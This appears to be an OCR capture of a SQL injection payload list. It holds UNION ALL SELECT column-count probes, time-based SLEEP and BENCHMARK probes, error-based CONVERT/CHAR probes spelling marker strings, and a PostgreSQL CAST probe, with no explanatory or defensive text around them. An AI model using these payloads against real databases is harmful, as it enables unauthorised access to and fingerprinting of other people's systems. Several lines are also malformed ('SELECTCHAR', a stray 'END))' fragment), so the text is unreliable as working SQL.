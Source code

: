            UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
           UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
           UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
           UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
           UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
           UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
           UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
           UNION ALL SELECT NULL-- 
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)))-- 
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)))-- 
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)))-- 
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))-- 
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))--  
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)))-- 
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)))-- 
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)))-- 
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)))-- 
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)))-- 
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113)))-- 
           UNION ALL SELECT NULL#
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)))#
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)))#
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)))#
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))#
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))#
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)))#
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)))#
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)))#
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)))#
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)))#
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)))#
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113)))#
           UNION ALL SELECT NULL 
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)))
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)))
END))+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113)))
           AND 3516=CAST((CHR(113)||CHR(106)||CHR(122)||CHR(106)||CHR(113))||(SELECT (CASE WHEN (3516=3516) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(112)||CHR(106)||CHR(107)||CHR(113)) AS NUMERIC)